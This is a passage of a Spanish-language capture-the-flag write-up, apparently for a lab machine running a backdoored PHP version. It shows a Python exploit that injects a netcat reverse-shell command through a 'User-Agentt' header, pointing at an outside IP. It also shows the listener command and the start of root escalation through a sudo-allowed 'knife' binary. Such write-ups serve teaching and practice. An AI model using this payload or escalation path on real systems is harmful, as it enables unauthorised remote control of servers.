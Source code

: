 ```python

def main():
	r = s.get(sys.argv[1], headers={"User-Agentt":"zerodiumsystem(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.175 443 >/tmp/f\");"})


if __name__ == "__main__":
	if(len(sys.argv)==2):
		main()
	else:
		print("Uso: " + sys.argv[0] + " <http://test>")
```

Nos pondremos en escucha con [Netcat](http://netcat.sourceforge.net/) por el puerto 443:

```bash
nc -nlvp 443
```

Al ejecutar el exploit:

<img src="https://i.imgur.com/mPD6ZtZ.png" width=600>

En este punto y como el usuario james procederemos a leer la flag user.txt en el directorio /home/james.

<br>

## Shell de root

### Enumeración
Comenzaremos enumerando el sistema para ver de que forma podemos escalar privilegios.

Lo primero que haremos será comprobar si nuestro usuario puede ejecutar algún comando como el usuario root, para ello:

<img src="https://i.imgur.com/Zsleo0I.png" width=700>

<br>

### Binario knife
Nos encontraremos con el binario knife, el cual podremos ejecutar como el usuario root sin necesidad de proporcionar contraseña.

Veremos si tenemos algún tipo de panel de ayuda para el binario:

<img src="https://i.imgur.com/vtBtLLb.png" width=300>

Como vemos el panel de ayuda cuenta con 375 líneas por lo que tendremos que analizarlo con atención.

Nos encontraremos con el siguiente argumento que nos permitirá ejecutar un script:

<img src="https://i.imgur.com/6C7lQZb.png" width=300>
